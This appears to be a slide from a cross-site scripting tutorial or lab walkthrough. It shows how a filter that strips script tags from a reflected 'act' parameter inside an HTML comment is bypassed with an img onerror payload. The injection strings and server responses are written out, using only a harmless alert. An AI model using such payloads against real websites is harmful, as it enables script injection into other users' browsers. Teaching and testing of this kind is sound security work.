

Let’s add a script tag instead of hello now
Input :
act=--><script>alert(0)</script>
Response :
<!-- Invalid action: -->alert(0)-->
We can observe that script tag is being filtered in response
Let’s try with img tag
Input :
act=--><img+src=x+onerror=alert(0)
Response :
<!-- Invalid action: --><img src=x onerror=alert(0)-->